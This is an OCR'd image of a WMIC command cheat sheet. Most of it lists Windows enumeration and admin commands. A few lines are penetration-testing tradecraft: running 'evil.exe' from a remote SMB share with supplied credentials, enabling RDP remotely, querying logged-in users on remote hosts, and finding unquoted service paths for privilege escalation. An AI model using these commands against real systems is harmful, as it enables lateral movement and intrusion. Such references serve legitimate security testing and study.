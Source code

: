 #wmic: lis all updates
wmic qfe
wmic qfe get Caption,Description,HotFixID,InsatalledOn

#wmic: list all disks
wmic logicaldisk get caption,description,providername

#wmic: list all attributes  
wmic [alias] get /?  
  
#wmic: callable methods  
wmic [alias] call /?  
  
#wmic: process attributes  
wmic process list full  
  
#wmic: starts wmic service  
wmic startupwmic service  
  
#wmic: domain and DC info  
wmic ntdomain list  
  
#wmic: list all patches  
wmic qfe  
  
#wmic: execute process  
wmic process call create "process_name"  
  
#wmic: terminate process  
wmic process where name="process" call terminate  
  
#wmic: view logical shares  
wmic logicaldisk get description,name  
  
#wmic: display 32 || 64 bit  
wmic cpu get DataWidth /format:list  
  
alias: process, share, startup, service, niconfig, useraccount, etc.  
  
#wmic: execute file hosted over SMB on remote system with specified credential  
wmic /node:<targetiP> /user:domain\user /password:password process call create "\\<smbiP>\share\evil.exe"  
  
#wmic: get software names  
wmic product get name /value  
wmic product where name="XXX" call uninstall /nointeractive  
  
#wmic: remotely determine logged in user  
wmic /node:remotecomputer computersystem get username  
  
#wmic: remote process listing every second  
wmic /node:machinename process list brief /every:1  
  
#wmic: remotely start RDP  
wmic /node:"machinename 4" path Win32_TerminalServiceSetting where AllowTSConnections="0" call SetAllowTSConnections "1"  
  
#wmic: list numbers of times user logged in  
wmic netlogin where (name like "%adm%") get numberoflogons  
  
#wmic: search for services with unquoted paths to binary  
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """